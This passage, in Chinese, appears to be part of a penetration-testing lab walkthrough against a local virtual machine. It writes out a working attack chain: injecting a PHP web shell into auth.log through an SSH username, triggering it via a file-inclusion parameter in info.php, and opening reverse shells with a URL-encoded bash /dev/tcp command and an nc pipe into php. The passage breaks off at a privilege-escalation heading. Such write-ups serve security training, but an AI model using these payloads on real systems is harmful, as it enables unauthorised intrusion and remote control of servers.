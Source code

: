 这里使用 ssh 登录, 将小马写入到 auth.log 文件中。

```
ssh '<?php system($_GET["cmd"]);?>'@192.168.239.129 -p 2211
```

尝试进行命令执行：

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0iclaVQgXtZnRwy7ial04rGrUyoWYzSPDfMibXPb9eTrhzCg81k4Fe6g5uvpItE9aooU0OgfkK9ZXVzQ/640?wx_fmt=png)

可以看到这里命令确实是成功执行了。

![](https://mmbiz.qpic.cn/mmbiz_png/gK5Jln77QpfCg4TuDDcMIQ4O2SBicMOFFibY0TJg38IOkGqiaDibqbWB7ibhUBxu2NYqYPf17hMDKDyrF1oibY3IC5Tw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/aXKFGCXFPU1ibwdIPabpKuLwuRibvUKkCGl1rCXjJgPwSFhhsYoEFxqvbv2ejRjA8eIWyhcExpS4BjtJ70J5zNKQ/640?wx_fmt=png)

反弹 shell

![](https://mmbiz.qpic.cn/mmbiz_png/MwXV1eZgygVbsHns8UlxuNNkib8W4xVPRYQn1UTdTZI35SFobPbQ97pJsJg1JMMLj3ZucoXsibTSYeWIDdwU4zFQ/640?wx_fmt=png)

为了更好的进行攻击, 这里选择反弹一个 shell, 推荐一个命令行 urlencode。

```
root@yimeng:/var/log# sudo apt-get install gridsite-clients  安装urlencode
root@yimeng:/var/log# urlencode "bash -c 'bash -i >& /dev/tcp/192.168.239.128/5555 0>&1'"
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.239.128%2F5555%200%3E%261%27
```

访问即可反弹 shell:

```
http://192.168.239.129/antibot_image/antibots/info.php?image=/var/log/auth.log&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.239.128%2F5555%200%3E%261%27
```

**利用 nc 反弹 shell**  

攻击机:

```
sudo nc -lvp 40 < rshell.php  // rshell.php预先准备好的反弹shell
```

目标机器:

```
nc 192.168.239.128 40 | php  # 直接执行rshell.php文件
```

![](https://mmbiz.qpic.cn/mmbiz_png/gK5Jln77QpfCg4TuDDcMIQ4O2SBicMOFFibY0TJg38IOkGqiaDibqbWB7ibhUBxu2NYqYPf17hMDKDyrF1oibY3IC5Tw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/aXKFGCXFPU1ibwdIPabpKuLwuRibvUKkCGl1rCXjJgPwSFhhsYoEFxqvbv2ejRjA8eIWyhcExpS4BjtJ70J5zNKQ/640?wx_fmt=png)

提权

![](https://mmbiz.qpic.cn/mmbiz_png/MwXV1eZgygVbsHns8UlxuNNkib8W4xVPRYQn1UTdTZI35SFobPbQ97pJsJg1JMMLj3ZucoXsibTSYeWIDdwU4zFQ/640?wx_fmt=png)

使用提权辅助工具:
